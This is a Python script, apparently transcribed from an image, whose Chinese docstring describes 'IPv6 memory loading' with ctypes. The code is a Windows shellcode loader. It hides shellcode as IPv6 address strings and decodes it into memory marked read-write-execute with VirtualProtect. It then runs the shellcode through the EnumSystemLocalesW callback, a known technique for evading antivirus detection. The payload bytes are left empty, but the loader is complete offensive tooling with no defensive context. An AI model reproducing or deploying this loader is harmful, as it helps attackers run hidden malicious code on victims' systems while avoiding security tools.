 ```python
# -*-coding:utf-8 -*-
"""
ctypes库是Python中用来调用系统动态链接库函数的模块，利用ctypes库可以调用C语言的动态链接库并向其传递函数
IPv6内存加载
"""
import ctypes

shellcode = b''
if len(shellcode) % 16 != 0:
    null_byte = b'\x00' * (16 - len(shellcode) % 16)
    shellcode += null_byte

ctypes.windll.Activeds.AllocADsMem.restype = ctypes.c_uint64
ptr_alloc_1 = ctypes.windll.Activeds.AllocADsMem(ctypes.c_int(len(shellcode) // 16 * 40))
ptr_realloc_1 = ctypes.windll.Activeds.ReallocADsMem(ptr_alloc_1, len(shellcode) // 16 * 40, len(shellcode) // 16 * 40)
ctypes.windll.kernel32.VirtualProtect(ptr_realloc_1, ctypes.c_int(len(shellcode) // 16 * 40), 0x40, ctypes.byref(ctypes.c_long(1)))

for i in range(len(shellcode) // 16):
    bytes_shellcode = shellcode[i * 16: 16 + i * 16]
    ctypes.windll.Ntdll.RtlIpv6AddressToStringA(bytes_shellcode, ptr_realloc_1 + i * 40)

ipv6_list = []
for i in range(len(shellcode) // 16):
    ipv6 = ctypes.string_at(ptr_realloc_1 + i * 40, 40)
    ipv6_list.append(ipv6)
print(ipv6_list)

ptr_alloc_2 = ctypes.windll.Activeds.AllocADsMem(ctypes.c_int(len(shellcode)))
ptr_realloc_2 = ctypes.windll.Activeds.ReallocADsMem(ptr_alloc_1, len(shellcode), len(shellcode))
ctypes.windll.kernel32.VirtualProtect(ptr_realloc_2, ctypes.c_int(len(shellcode)), 0x40, ctypes.byref(ctypes.c_long(1)))

rwxpage = ptr_realloc_2
for i in range(len(ipv6_list)):
    ctypes.windll.Ntdll.RtlIpv6StringToAddressA(ipv6_list[i], ipv6_list[i], rwxpage)
    rwxpage += 16

ctypes.windll.kernel32.EnumSystemLocalesW(ptr_realloc_2, 0)
```
